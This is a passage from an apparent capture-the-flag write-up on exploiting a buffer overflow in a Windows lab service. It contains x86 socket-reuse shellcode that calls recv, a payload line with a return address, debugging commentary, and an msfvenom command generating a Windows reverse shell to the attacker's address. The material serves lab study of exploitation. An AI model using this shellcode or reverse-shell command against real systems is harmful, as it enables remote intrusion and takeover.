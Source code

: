 ```

recv_sc = (
        # get socket descriptor in esi
        b"\x54"                   # push esp
        b"\x58"                   # pop eax
        b"\x66\x05\x49\x01"       # add ax, 0x149
        b"\x66\x2d\x01\x01"       # sub ax, 0x101
        b"\x8b\x30"               # mov esi, dword [eax]

        # make space on stack
        b"\x83\xec\x64"           # sub esp, 0x64

        # push recv args
        b"\x31\xdb"               # xor ebx, ebx
        b"\x53"                   # push ebx, recv flags = 0
        b"\x66\x81\xc3\x04\x04"   # add bx, 0x404
        b"\x53"                   # push ebx, size = 0x404
        b"\x54"                   # push esp
        b"\x5b"                   # pop ebx
        b"\x83\xc3\x64"           # add ebx, 0x64
        b"\x53"                   # push ebx, buffer
        b"\x56"                   # push esi, sock descriptor

        # call recv
        b"\xa1\xac\x82\x90\x71"   # mov eax, [0x719082ac]
        b"\xff\xd0"               # call eax 
        )

payload = recv_sc + b"\xCC"*(66-len(recv_sc)) + p32(0x7190239f) + b"\xeb\xb8"

```

I’ll break at the `jmp esp`, and then step through to see where it would be called, and it looks good:

[![](https://0xdfimages.gitlab.io/img/hancliffe-socket-stack-2.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/hancliffe-socket-stack-2.png)

It’s about to call EAX, which holds `recv`, and store the shellcode after a handful of bytes that I control. It will then return to the next instruction, which at the moment they are INTs (`\xCC`). I’ll change them to NOPs (`\x90`) so that execution continues without issue through the NOPs and to the shellcode.

#### Add Shellcode

Given that this all looks good, I’ll add the shellcode from `msfvenom` generated using the following:

```

msfvenom -p windows/shell_reverse_tcp LHOST=10.1.1.164 LPORT=443 -b "\x00" -f python

```
